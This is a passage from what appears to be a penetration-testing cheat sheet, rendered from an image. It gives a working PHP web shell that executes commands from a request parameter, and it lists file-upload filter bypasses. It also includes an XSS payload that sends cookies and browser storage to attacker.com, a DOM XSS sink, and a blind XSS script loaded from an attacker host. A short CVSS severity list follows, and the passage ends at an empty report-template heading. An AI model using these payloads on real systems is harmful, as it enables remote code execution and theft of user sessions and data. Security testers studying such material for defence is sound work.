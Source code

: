 **File Upload Exploitation**:

```php
# PHP Web Shell Upload
<?php
if (isset($_REQUEST['cmd'])) {
    $cmd = $_REQUEST['cmd'];
    system($cmd);
}
?>

# Upload techniques:
# 1. Double extension: shell.php.jpg
# 2. Null byte: shell.php%00.jpg
# 3. Content-Type manipulation
# 4. ZIP upload with directory traversal
# 5. Polyglot files (valid image + executable code)
```

**XSS Exploitation Examples**:

```javascript
// Session hijacking XSS payload
<script>
fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify({
        cookies: document.cookie,
        localStorage: JSON.stringify(localStorage),
        sessionStorage: JSON.stringify(sessionStorage),
        origin: window.location.origin
    })
});
</script>

// DOM-based XSS with dynamic payload
<script>
var payload = window.location.hash.substring(1);
document.getElementById('content').innerHTML = payload;
</script>
// URL: https://target.com/page#<img src=x onerror=alert('XSS')>

// Blind XSS with callback
<script src="https://attacker.com/blind.js"></script>
```

**Vulnerability Assessment Framework**:

**Severity Classification (CVSS-based)**:
- **Critical (9.0-10.0)**: RCE, authentication bypass, full system compromise
- **High (7.0-8.9)**: Privilege escalation, sensitive data exposure, SSRF with internal access
- **Medium (4.0-6.9)**: IDOR, XSS with session impact, information disclosure
- **Low (0.1-3.9)**: Self-XSS, minor information leakage, rate limiting bypass

**Exploitation Report Template**:
